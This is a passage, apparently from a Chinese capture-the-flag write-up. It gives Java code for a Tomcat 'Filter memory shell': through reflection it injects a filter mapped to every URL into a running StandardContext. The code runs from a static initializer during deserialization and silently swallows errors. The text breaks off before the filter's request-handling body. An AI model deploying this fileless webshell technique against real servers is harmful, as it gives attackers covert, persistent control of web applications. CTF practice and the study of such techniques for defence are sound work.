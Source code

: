 若题目出不了网，试试写个`Filter`内存马

把`Evil`换成下面的`MyFilter`即可

```java
import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.catalina.loader.WebappClassLoaderBase;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import javax.servlet.*;
import javax.servlet.http.HttpServletRequest;
import java.io.IOException;
import java.io.Serializable;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Map;

public class MyFilter implements Filter, Serializable {
    static {
        try {
            final String name = "FilterGreet";
            WebappClassLoaderBase webappClassLoaderBase = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();
            StandardContext standardContext = (StandardContext) webappClassLoaderBase.getResources().getContext();

            Field Configs = Class.forName("org.apache.catalina.core.StandardContext").getDeclaredField("filterConfigs");
            Configs.setAccessible(true);
            Map filterConfigs = (Map) Configs.get(standardContext);

            if (filterConfigs.get(name) == null) {
                Filter filter = new MyFilter();

                FilterDef filterDef = new FilterDef();
                filterDef.setFilter(filter);
                filterDef.setFilterName(name);
                filterDef.setFilterClass(filter.getClass().getName());

                standardContext.addFilterDef(filterDef);

                FilterMap filterMap = new FilterMap();
                filterMap.addURLPattern("/*");
                filterMap.setFilterName(name);
                filterMap.setDispatcher(DispatcherType.REQUEST.name());

                standardContext.addFilterMapBefore(filterMap);

                Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
                constructor.setAccessible(true);
                ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext, filterDef);

                filterConfigs.put(name, filterConfig);
            }
        } catch (Exception hi) {
        }
    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
```